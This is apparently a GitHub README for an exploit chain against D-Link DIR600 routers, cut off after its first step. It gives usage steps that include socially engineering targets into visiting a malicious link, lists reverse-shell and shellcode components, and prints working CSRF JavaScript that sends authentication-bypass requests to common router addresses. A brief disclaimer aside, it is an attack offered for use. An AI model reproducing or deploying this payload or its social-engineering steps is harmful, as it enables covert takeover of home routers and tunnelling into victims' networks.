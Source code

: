 ## Repository Structure

```
├── DMZ/                          # DMZ configuration scripts
├── curl_mipsle/                  # MIPS cross-compiled curl binary
├── exploit_dir600.html           # Main exploit payload
├── firmware/                     # Extracted firmware analysis
├── microsocks/                   # SOCKS proxy server for MIPS
├── reverse_shells/               # Reverse shell payloads
└── shellcode utilities/          # Shellcode conversion tools
```

## Usage

**⚠️ Warning: This tool is for educational and authorized testing purposes only. Unauthorized access to computer systems is illegal.**

1. Host the exploit HTML file on a web server
2. Social engineer the target to visit the malicious link
3. The exploit automatically executes the full chain
4. Access the compromised router via the installed SOCKS proxy

## Technical Details

- **Target**: D-Link DIR600 routers
- **Architecture**: MIPS LSB32
- **Attack Vector**: CSRF via malicious web links
- **Persistence**: Temporary (removed on reboot)
- **Network Access**: SOCKS proxy tunneling

## Exploit Chain Workflow

### Step 1: Initial Access via CSRF

The attack begins with a malicious HTML page that performs CSRF attacks against the target router:

```html
<!-- exploit_dir600.html -->
<script>
// Target common router IP addresses
var targets = ['192.168.0.1', '192.168.1.1', '10.0.0.1'];

targets.forEach(function(ip) {
    // Attempt authentication bypass
    var img = new Image();
    img.src = 'http://' + ip + '/cgi-bin/webproc?getpage=html/index.html&var:menu=setup&var:page=wizard&var:login=true&var:password=&var:action=login';
});
</script>
```

### Step 2: Binary Upload and Reconstruction
